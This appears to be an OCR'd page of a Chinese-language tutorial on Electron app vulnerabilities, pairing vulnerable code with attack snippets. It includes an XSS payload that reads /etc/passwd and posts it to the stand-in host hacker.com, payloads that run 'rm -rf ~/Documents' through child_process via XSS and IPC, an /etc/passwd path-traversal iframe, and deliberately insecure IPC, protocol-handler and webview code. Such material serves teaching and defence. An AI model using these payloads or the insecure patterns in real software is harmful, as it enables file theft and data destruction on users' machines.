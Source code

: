 
```
攻击者利用 XSS 执行：
// 窃取系统文件
const data = window.api.readFile('/etc/passwd');
fetch('http://hacker.com/steal', { method: 'POST', body: data })
```

##### DOM 型 XSS + file:// 协议利用  

```
// 漏洞代码：基于 URL 参数动态创建元素
const html = `<a href=&#34;${location.hash.slice(1)}&#34;>点击</a>`;
document.body.innerHTML = html;
```


```
攻击者构造链接：file://app/index.html#javascript:require('child_process').exec('rm -rf ~/Documents')
结果：用户点击后删除整个文档目录
```

#### IPC 通信漏洞链  

```
// 主进程 (危险IPC处理)
ipcMain.on('exec-command', (event, cmd) => {
  require('child_process').exec(cmd); // 直接执行系统命令
});


// 渲染进程 (通过XSS触发)
document.write(`<img src=x onerror=&#34;
  window.api.send('exec-command', 'rm -rf ~/Documents')
&#34;>`);
```

#### 协议处理器路径遍历  

```
// 自定义协议漏洞
protocol.registerFileProtocol('app', (request, callback) => {
  callback({ path: request.url.substring(7) }); // 未过滤路径
});
```


```
攻击效果：<iframe src=&#34;app:///../../etc/passwd&#34;></iframe>
```

#### Webview 沙箱逃逸  

```
<!-- 危险 Webview 配置 -->
<webview 
  src=&#34;https://external.com&#34;
  nodeintegration
  allowpopups
  webpreferences=&#34;contextIsolation=no&#34;
></webview>
```
